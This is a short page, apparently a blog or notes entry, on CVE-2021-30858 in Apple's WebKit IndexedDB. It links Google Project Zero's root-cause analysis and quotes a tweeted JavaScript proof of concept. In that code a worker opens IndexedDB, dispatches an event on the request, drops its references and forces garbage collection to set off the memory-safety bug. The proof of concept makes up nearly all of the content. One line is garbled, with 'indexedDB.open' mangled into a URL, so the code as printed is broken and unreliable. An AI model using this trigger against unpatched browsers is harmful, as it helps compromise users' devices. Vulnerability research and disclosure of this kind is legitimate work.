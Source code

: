 ```yaml
---
title: Apple's IndexDB Has A Tweetable Exploit
direct_link: https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2021/CVE-2021-30858.html
---
```


By [@maddiestone](https://twitter.com/maddiestone/status/1486402800103792645?s=21):

```js
index.html:
<script>w = new Worker('idbworker.js');</script>

idbworker.js:
function gc() {
   for (var i = 0; i < 1000; i++) { a = new Uint8Array(1024*1024); }
}

let ev = new Event('mine');
let req = http://indexedDB.open('db');
req.dispatchEvent(ev);
req = 0;
ev = 0;
gc();
```
